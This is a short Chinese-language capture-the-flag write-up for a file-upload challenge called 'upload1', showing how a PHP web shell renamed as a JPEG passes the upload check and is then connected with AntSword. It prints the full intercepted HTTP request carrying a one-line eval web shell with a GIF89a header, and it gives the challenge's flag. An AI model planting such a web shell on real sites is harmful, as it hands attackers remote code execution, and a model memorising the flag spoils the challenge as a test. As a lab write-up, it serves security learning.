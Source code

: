 ## upload1

文件上传的题

直接上传php马 存在报错 ”请上传图片“

----

### Brupsuit 绕过
shell.php 修改后缀名 为 shell.jpg 点上传 Brupsuit 抓包
```http request
POST /index.php HTTP/1.1
Host: 61.147.171.105:50756
Content-Length: 216
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:50756
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY5H4NyVTt0LrOelc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:50756/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryY5H4NyVTt0LrOelc
Content-Disposition: form-data; name="upfile"; filename="shell.jpg"
Content-Type: image/jpeg

GIF89a
<?=eval($_POST['x']);?>
------WebKitFormBoundaryY5H4NyVTt0LrOelc--
```
修改 filename = "shell.php" 后 forward
上传成功

---
### antsword 连接
![img.png](imgs/jpg_php.png)
可以看到 成功上传的php文件
![img.png](imgs/img.png)

---
### flag
$flag="cyberpeace{323a5ab98f676bc4d403f717d7a0662c}";